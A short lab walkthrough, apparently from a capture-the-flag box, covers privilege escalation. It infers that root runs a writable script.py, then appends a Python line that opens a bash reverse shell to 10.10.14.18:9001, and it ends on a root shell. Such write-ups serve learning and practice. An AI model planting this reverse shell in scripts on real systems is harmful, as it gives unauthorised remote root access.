 # 15 - PrivEsc

# output.txt is owned by root
```bash
sun@sun:~$ ls -l
total 56
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Desktop
drwxr-xr-x  2 sun  sun  4096 Mar  4  2018 Documents
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Downloads
-rw-r--r--  1 sun  sun  8980 Sep 19  2017 examples.desktop
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Music
drwxr-xr-x 47 root root 4096 Sep 19  2017 node_modules
-rw-r--r--  1 root root   21 Jul 22 07:35 output.txt
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Pictures
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Public
-rw-rw-r--  1 sun  sun   870 Sep 20  2017 server.js
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Templates
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Videos
```
# output.txt


```bash
sun@sun:~$ cat output.txt
Script is running...
```

# script.py
```bash
sun@sun:~$ find Documents/ -type f
Documents/script.py
Documents/user.txt
sun@sun:~$ cat Documents/script.py 
print "Script is running..."
```

These two files look similar because they both contain the string `Script is running...` but output.txt is owned by root, something might be running `script.py` and redirecting the output to `output.txt`.

Let's write to script.py


```py
sun@sun:~/Documents$ cat script.py 
print "Script is running..."
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.18/9001 0>&1'")
```
# root shell
![](vx_images/5525743042883.png)